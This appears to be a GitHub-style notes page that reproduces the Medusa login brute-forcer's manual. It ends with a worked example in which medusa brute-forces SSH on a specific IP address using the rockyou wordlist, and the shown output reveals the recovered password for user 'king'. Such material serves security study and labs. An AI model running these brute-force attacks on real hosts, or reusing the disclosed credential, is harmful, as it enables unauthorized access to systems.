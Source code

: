 # Medusa


* NAME
       MEDUSA - Parallel Network Login Auditor

* SYNOPSIS
       
       medusa [-h host|-H file] [-u username|-U file] [-p password|-P file] [-C file] -M module [OPTIONS]

* DESCRIPTION
       Medusa is intended to be a speedy, massively parallel, modular, login brute-forcer.  The goal is to support as many
       services which allow remote authentication as possible. The author considers following items to  some  of  the  key
       features of this application:

       
       -h [TARGET]
              Target hostname or IP address.

       -H [FILE]
              Reads target specifications from the file specified rather than from the command line.  The file should con‐
              tain a list separated by newlines.

       -u [TARGET]
              Target username.

       -U [FILE]
              Reads target usernames from the file specified rather than from the command line.  The file should contain a
              list separated by newlines.

       -p [TARGET]
              Target password.

       -P [FILE]
              Reads target passwords from the file specified rather than from the command line.  The file should contain a
              list separated by newlines.

       -C [FILE]
              File containing combo entries. Combo files are colon separated and in the following format:  host:user:pass‐
              word.  If  any of the three fields are left empty, the respective information should be provided either as a
              single global value or as a list in a file.

       -O [FILE]
              File  to  append  log information to. Medusa will log all accounts credentials found to be valid or cause an
              unknown error. It will also log the start and stop times of an audit, along with the calling parameters.

       -e [n/s/ns]
              Additional password checks ([n] No Password, [s] Password = Username). If both options are being used,  they
              should be specified together ("-e ns"). If only a single option is being called use either "-e n" or "-e s".

       -M [TEXT]
              Name of the module to execute (without the .mod extension).

       -m [TEXT]
              Parameter  to pass to the module. This can be passed multiple times with a different parameter each time and
              they will all be sent to the module (i.e.  -m Param1 -m Param2, etc.)

       -d     Dump all known modules.

       -n [NUM]
              Use for non-default TCP port number.

       -s     Enable SSL.

       -g [NUM]
              Give up after trying to connect for NUM seconds (default 3).

       -r [NUM]
              Sleep NUM seconds between retry attempts (default 3).

       -R [NUM]
              Attempt NUM retries before giving up. The total number of attempts will be NUM + 1.

       -c [NUM]
              Set the number of usec that are waited during a test of the established network socket. Some services  (e.g.
              FTP,  IMAP,  POP3, and SMTP) may be configured to drop connections after an arbitrary number of failed logon
              attempts.

       -t [NUM]
              Total number of logins to be tested concurrently. It should be noted that roughly t x  T  threads  could  be
              running at any one time. 381 appears to be the limit on my fairly boring Gentoo Linux host.

       -T [NUM]
              Total number of hosts to be tested concurrently.

       -L     Parallelize  logins using one username per thread. The default is to process the entire username before pro‐
              ceeding.

       -f     Stop scanning host after first valid username/password found.

       -F     Stop audit after first valid username/password found on any host.

       -b     Suppress startup banner

       -q     Display module's usage information. This should be used in conjunction with the "-M"  option.  For  example,
              "medusa -M smbnt -q".

       -v [NUM]
              Verbose  level  [0  - 6 (more)]. All messages at or below the specified level will be displayed. The default
              level is 5.

              The following is the breakdown of the verbose levels: 0)   EXIT APPLICATION  1)    MESSAGE  WITHOUT  TAG  2)
              LOG MESSAGE WITHOUT TAG 3)   IMPORTANT MESSAGE 4)   ACCOUNT FOUND 5)   ACCOUNT CHECK 6)   GENERAL MESSAGE

       -w [NUM]
              Error  debug  level [0 - 10 (more)]. All messages at or below the specified level will be displayed. The de‐
              fault level is 5.

              The following is the breakdown of the error levels: 0)   FATAL  1)    ALERT  2)    CRITICAL  3)    ERROR  4)
              WARNING 5)   NOTICE 6)   INFO 7)   DEBUG 8)   DEBUG - AUDIT 9)   DEBUG - SERVER 10)  DEBUG - MODULE

       -V     Display version

       -Z [TEXT]
              Allows basic resuming of a previous scan. The supplied parameter describes which hosts were completed, which
              were partially tested and which had not been started.  When Medusa receives a SIGINT, it will calculate  and
              display  a "resume map". This map can then be supplied to the next run. For example, "medusa [OPTIONS PREVI‐
              OUSLY USED] -Z h6u1u2h8."

### example attack on webserver 
```
┌──(kali㉿kali)-[~]
└─$ medusa -h 143.110.251.159 -u king -P /usr/share/wordlists/rockyou.txt -M ssh                                                                        255 ⨯
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: 123456 (1 of 14344393 complete)
ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: 12345 (2 of 14344393 complete)
ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: 123456789 (3 of 14344393 complete)
ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: password (4 of 14344393 complete)
ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: iloveyou (5 of 14344393 complete)
ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: princess (6 of 14344393 complete)
ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: 1234567 (7 of 14344393 complete)
ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: rockyou (8 of 14344393 complete)
ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: football (41 of 14344393 complete)
ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: secret (42 of 14344393 complete)
ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: ieee2021 (107 of 14344393 complete)
ACCOUNT FOUND: [ssh] Host: 143.110.251.159 User: king Password: ieee2021 [SUCCESS]
```

### Explanation for above attack 

*medusa -h 143.110.251.159 -u king -P /usr/share/wordlists/rockyou.txt -M ssh 
* -h => Target hostname or IP address
* -u => Target username
* -P => Target passwords from the file [wordlist]
* -M => Name of the module to execute [eg:- ssh,ftp]
